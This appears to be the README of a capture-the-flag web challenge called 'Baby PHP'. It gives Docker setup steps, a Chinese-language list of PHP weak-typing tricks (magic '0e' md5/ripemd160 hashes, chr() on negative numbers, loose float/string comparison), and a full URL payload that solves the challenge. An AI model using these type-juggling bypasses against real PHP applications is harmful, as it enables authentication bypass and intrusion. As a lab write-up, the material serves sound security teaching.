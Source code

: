 ## Challenge Name

Baby PHP

## Challenge Description

How secure is PHP ???

## Difficulty

Medium

## How to run

cd to the challenge root dir and run the follow command

### docker-compose (recommend)

```
docker-compose -up -d
```

### docker

```
docker build -t . baby-php
docker run -tid -p 10000:80 baby-php
```

## Exploit

### Vuln

1. chr() 遇到负数会将它模256取整数
2. strpos()可以拿数组绕过，但是这里限制了，因为要配合后面自加等于10
3. md5()加密前与加密后相等
4. 找一个加密后等于0exxx即可以构造0exxxxx=0exxx
5. hash ripemd160 网上可以找到类似上一个点一样的payload
6. float/int型和字符型的弱类型比较

payload
```
http://ip:10000/?key1=-200&key2=7.9999999999999999&rq=240610708&fp=0e1234&np=20583002034&nq=00e1839085851394356611454660337505469745&key3=a:2:{s:8:"username";d:0;s:8:"password";d:0;}
```